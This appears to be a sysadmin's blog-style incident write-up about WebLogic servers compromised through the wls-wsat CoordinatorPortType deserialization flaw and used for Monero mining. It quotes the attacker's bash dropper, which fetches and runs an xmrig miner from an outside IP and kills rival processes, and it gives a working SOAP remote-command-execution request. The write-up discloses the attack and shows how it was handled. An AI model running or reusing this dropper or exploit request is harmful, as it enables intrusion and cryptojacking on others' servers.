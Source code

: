 ## Weblogic Component Vulnerability /wls-wsat/CoordinatorPortType wls-wsat.war

It was the day after new year. In one morning all of our java instances had been killed. We first suspected there was a manual reboot. 
So we started our application server as usual. We first started our node managers. Then started our admin server and our java applications so on.

While we were working on these jobs, suddenly in one machine all of our java processes had been killed again. We immediately informed our product owner saying that there could be a manual intervention somewhere else even if we could not find the logged in user. We also suspected that the ssh user had been compromised then changed the password with a relief.

Everything went normally for two hours. Then the ultimate catastrophic event happened. Our java instances had been killed again. When we check the processes there were two java processes which eat up the cpu like a hungry pig. We decided not to kill these processes but examine them. When we inspect it with netstat we saw that they send packages to the following IP address.

```
http://145.239.0.84/
Mining Pool Online
```

We checked the history and could not believe our eyes.

```
#!/bin/bash
sPid=$$
mPid=''
mName='java'
checkCmd() {     command -v $1 >/dev/null 2>&1; }
downloader () {     if checkCmd wget; then         wget $1 -O $2 ;     elif checkCmd curl; then         curl $1 -o $2;     elif checkCmd python; then         if [ "`python -c "import sys; print(sys.version_info[0])"`" = "3" ]; then             python -c "from urllib.request import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         else             python -c "from urllib import urlopen; u = urlopen('"$1"'); localFile = open('"$2"', 'wb'); localFile.write(u.read()); localFile.close()";         fi;     else         cat < /dev/tcp/165.227.215.25/5555 > $2;     fi;     chmod +x $2; }
killer() {     for tmpVar in `ps -aeo pid,%cpu,command | sed 1d | sort -k 2 | tail -n 10 | awk '{print $1}'`; do         if [ $tmpVar = $sPid ]; then             continue;         fi;         if [ $tmpVar = $mPid ]; then             continue;         fi;         if [ `ps -o %cpu $tmpVar | sed 1d | sed 's/\..*//g'` -ge 60 ]; then             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep java` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep sh` ]; then                 continue;             fi;             if [ `ps $tmpVar | sed 1d | awk '{print $5}' | grep bash` ]; then                 continue;             fi;             kill -9 $tmpVar;             rm -f `ls -l /proc/$tmpVar/exe 2>&1 | sed 's/.*-> //g'`;         fi;     done; }
runer() {     if [ -z "$mPid" ]; then         if [ ! -f $mName ]; then             downloader http://165.227.215.25/xmrig-y $mName;         fi;         chmod +x ./$mName;         ./$mName;     fi;     mPid=`ps -eo pid,command | grep $mName | head -n 1 | awk '{print $1}'`; }
pkill python; pkill $mName
downloader http://165.227.215.25/xmrig-y $mName
```

Someone had been killed all of our processes except its process. Downloaded a modified executable named xmrig which was apparently a Monero (XMR) CPU miner. Started this executable and started mining XMR on our servers. The process was named as java and was sending data to the Mining Pool Online (http://145.239.0.84/)

We were shocked. After a couple of hours of blaming and panicking we discovered that it was a sneaky attack on our WebLogic servers.

There is a path in WebLogic server wls-wsat/CoordinatorPortType which can be used to execute any kind of soap request. So when I post this request.

```
POST your_host/wls-wsat/CoordinatorPortType HTTP 1.1

Host: host_name
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: wp-settings-time-1=1506773666
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">;;
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">;;
            <java version="1.8" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>ls -l >> a_random_file.txt |bash</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body />
</soapenv:Envelope>

```

The soap request has been executed ending with creating a file named a_random_file.txt with ls -l information in it. The request mainly creates a ProcessBuilder object and executes it!!!
So only with an HTTP request, I can execute any command on the remote server!!!

We were actually happy when we discovered that. 

Our solution was to delete the responsible war. You can find it with the following command.

```
locate wls-wsat.war
```

Just delete it. Do not spend time for patching your useless Weblogic server. 
Weblogic sucks!!!
